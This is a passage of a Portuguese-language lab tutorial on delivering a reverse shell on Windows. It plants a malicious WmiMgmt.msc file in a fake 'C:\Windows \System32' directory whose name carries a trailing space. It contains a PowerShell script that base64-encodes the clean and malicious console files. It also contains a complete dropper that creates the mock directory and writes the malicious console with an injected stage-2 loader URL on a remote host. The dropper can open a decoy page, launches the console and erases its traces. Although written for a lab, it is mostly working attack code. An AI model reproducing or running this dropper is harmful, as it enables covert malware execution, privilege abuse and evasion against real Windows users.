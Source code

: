 Ok! Nosso arquivo `.msc` malicioso já está pronto. Vamos para o próximo arquivo.

## 4.3. Criando o seu payload de shell reverso

Nesta parte não vou detalhar como você deve fazer seu payload, vai depender do C2 que você vai usar no seu lab, se o metasploit, havoc etc... Aqui no meu lab eu criei o payload .exe diretamente no havoc. Ele tem assinatura e o Windows Defender identifica ele, o Elastic Security instalado no meu lab também identificou ele, como falei na **Introdução**.

## 4.4. Configurando o Base64

Essa parte é um ponto muito importante! Vamos codificar nossos dois arquivos: o arquivo limpo e malicioso do `WmiMgmt.msc`. Use o seguinte script para encodar em base64 o arquivo:

```powershell
$inputFile1 = "C:\Windows\System32\WmiMgmt.msc"
$inputFile2 = "<path_to_maliciou_file>\WmiMgmt.msc"
$base64String1 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes($inputFile1))
$base64String2 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes($inputFile2))
$base64String1 | Set-Content "C:\Users\Public\WmiMgmt.txt"
$base64String2 | Set-Content "C:\Users\Public\WmiMgmt_malicious.txt"

----
## OUTPUT
# Get-Content "C:\Users\Public\WmiMgmt.txt"
# PD94bWwgdmVyc2lv...vbnNvbGVGaWxlPg==
```

## 4.5. Criando o nosso dropper

Agora vamos começar a evoluir nossa estrutura e vamos desenvolver o _dropper_ do nosso shell.

Crie um arquivo chamado `shell.ps1` e copie exatamente o código abaixo:

```powershell
$ErrorActionPreference = 'silentlyContinue'

$htmlLoaderUrl = "http://192.168.145.115/stage2/"
$originalConsole = "g8yfiasn...oansfafs==" # b64 do seu arquivo original.
$hackedConsole = "akjfghjiaksgf...aihb7as6dyb==" # b64 do seu arquivo malicioso.
$fakeFile = "" # Aqui você pode configurar o que quiser... Abrir uma página do Google, pra passar despercebido...

New-Item "\\?\C:\Windows \System32\" -ItemType Directory
New-Item "\\?\C:\Windows \System32\xpto" -ItemType Directory

$decodedBytesOriginal = [System.Convert]::FromBase64String($originalConsole)
$decodedBytesFakes = [System.Convert]::FromBase64String($hackedConsole)

[System.IO.File]::WriteAllBytes("C:\Windows \System32\WmiMgmt.msc", $decodedBytesOriginal)
[System.IO.File]::WriteAllBytes("C:\Windows \System32\en-US\WmiMgmt.msc", $decodedBytesFakes)

(Get-Content -Path '\\?\C:\Windows \System32\en-US\WmiMgmt.msc' -Raw ) -replace '{htmlLoaderUrl}', $htmlLoaderUrl | Set-Content -Path '\\?\C:\Windows \System32\en-US\WmiMgmt.msc'
if ($fakeFile -ne $null -and $fakeFile -ne "") {
    Start-Process $fakeFile
}

Start-Process -FilePath 'C:\Windows \System32\WmiMgmt.msc'
Start-Sleep -Seconds 30

Remove-Item -Path "\\?\C:\Windows \System32" -Recurse -Force
Remove-Item -Path "\\?\C:\Windows \System32\xpto" -Recurse -Force
Remove-Item -Path "\\?\C:\Windows \" -Recurse -Force
Exit
```

[^1]: Living Off The Land Binaries, Scripts and Libraries
[^2]: Antecipando uma coisinha, eu tentei utilizar o `certmgr.msc`, por exemplo, e obtive o mesmo resultado. A ideia de usar o `WmiMgmt.msc` é puramente técnico, raramente ele é utilizado. Pelo menos eu nunca vi ninguém usando ele via GUI.